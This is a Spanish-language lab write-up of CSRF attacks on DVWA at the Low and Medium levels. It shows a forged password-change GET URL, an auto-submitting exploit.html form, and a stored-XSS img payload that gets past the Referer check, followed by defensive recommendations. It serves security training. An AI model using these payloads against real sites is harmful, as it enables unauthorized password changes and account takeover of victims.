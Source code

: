 # 🛡️ DVWA - Cross Site Request Forgery (CSRF) - Low y Medium

En este repositorio se explica cómo explotar la vulnerabilidad **CSRF (Cross Site Request Forgery)** en los niveles **Low** y **Medium** dentro de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Realizar un ataque CSRF para **cambiar la contraseña de un usuario autenticado sin su consentimiento**, aprovechando la ausencia o debilidad de protecciones en el formulario vulnerable. Esto se puede lograr mediante técnicas de ingeniería social como enviar un enlace por email o redirigir a la víctima a una página maliciosa.

---

## 🔧 Nivel Low

### 🧪 Vulnerabilidad detectada
- No hay validación de origen ni token CSRF.
- El código fuente `low.php` acepta peticiones GET directamente sin verificar el origen ni incluir ningún token de seguridad.
- Además, al inspeccionar el botón Test Credentials, se observa un script que abre una ventana con `test_credentials.php`, útil para comprobar si la contraseña ha sido modificada.
- Usando **Burp Suite**, es posible interceptar y observar una petición GET.

---

### 🛠 Paso a paso

1. Inspeccionamos el elemento desde el apartado de CSRF y vemos que el botón **Test Credentials** ejecuta un script, el cual verifica si la contraseña se ha cambiado correctamente.

![Inspeccionar_Elemento](assets/CSRFL_Inspeccionar.png) 
   
2. Damos click en **Test Credentials** y vemos que podemos comprobar la contraseña del usuario *admin* y su contraseña por defecto *password*.

![Test_Credentials](assets/CSRFL_TestCredentials.png) 

3. Cambiamos la contraseña, introduciendo esta dos veces, y damos click en **Change**.
4. Vemos con la herramienta **Burp Suite** que en la petición GET podemos ver una URL desde donde se puede cambiar la contraseña.
```php
GET /dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

![Cambio_contraseña](assets/CSRFL_GETChange.png) 

5. Copiamos esta URL y la pegamos sobre nuestro navegador.

![Copiar_URL](assets/CSRFL_URL.png) 

6. Realizamos cambios de la contraseña a *test123* desde la URL.

![Cambiar_contraseña_URL](assets/CSRFL_URLv2.png) 

7. Comprobamos que esta contraseña ha sido cambiada al haber modificado la URL y accedido al sitio web.

![Comprobar_contraseña](assets/CSRFL_test123.png) 


✅ **Exploit exitoso**: la contraseña cambia sin interacción del usuario.

---

## 🔧 Nivel Medium

### 🧪 Vulnerabilidad detectada
- El código `medium.php` realiza una validación del `HTTP_REFERER`, exigiendo que el origen de la petición sea el mismo dominio que el del servidor `SERVER_NAME`.
- Esto impide que ataques externos funcionen directamente, pero se puede **bypassear usando una vulnerabilidad de tipo XSS almacenado**.

### 🛠 Paso a paso (XSS + CSRF combinados)

1. Creamos el archivo `exploit.html` con el siguiente contenido:

```html
<html>
  <body>
    <form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/" method="GET">
      New password:<br />
      <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="test" /><br />
      Confirm new password:<br />
      <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="test" /><br />
      <input type="hidden" value="Change" name="Change" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

2. Intentamos ejecutar este exploit en el Navegador firefox.

```html
firefox exploit.html
```

Sin embargo, la salida no es la esperada, ya que no se modifica la contraseña del usuario.

![Post_Exploit](assets/CSRFM_PostExploit.png)

3. Ahora bajamos la seguridad a *Low* de nuevo, accedemos al apartado **XSS (Stored)** e inspeccionamos esta página, donde aumentaremos el valor de `MaxLength` a 250 para poder introducir el siguiente código en la sección *message*:

```html
<img src="/dvwa/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change">
```

![CambioMaxLength_Comando](assets/CSRFM_MaxLengComando.png)

4. El administrador, al visitar la sección del libro de visitas (`XSS Stored`), ejecutará la petición hacia la ruta CSRF. El referer será el propio DVWA, por lo tanto, **el filtro de origen en Medium no bloqueará la petición**.

![Peticion_CambioPass](assets/CSRFM_PeticionCambioPass.png)

En la siguiente petición vemos como la contraseña es cambiada desde la sección XSS_S.

![Peticion_CambioPassv2](assets/CSRFM_CambioPass.png)

5. Verificamos el cambio con `Test Credentials`.

![TestCredentials](assets/CSRFM_TestCredentials.png)

✅ **Exploit exitoso**: el uso de XSS para forzar una petición interna permite superar el control del `HTTP_REFERER`.

📌 **Nota técnica:** aunque parezca una protección, el referer es manipulable o predecible en ciertos contextos. No es una defensa efectiva por sí sola.

---

## ⚠️ Recomendaciones de seguridad

Para prevenir ataques CSRF:

- Usar tokens CSRF únicos por sesión y validados en el servidor.
- Verificar cabeceras de origen (`Origin` o `Referer`).
- No permitir cargas de archivos ejecutables.
- Aplicar SameSite en cookies para restringir su envío.
- Rechazar peticiones GET para cambios sensibles como contraseñas.
- Separar correctamente los contextos de entrada de datos para prevenir XSS.

---

## 📚 Recursos

- 🔗 [Writeup de Aftab Sama sobre CSRF](https://aftabsama.com/writeups/dvwa/cross-site-request-forgery-csrf/)
- ▶️ [Vídeo tutorial de CSRF en DVWA](https://www.youtube.com/watch?v=Nfb9E8MJv6k&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=4)
- 📖 [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
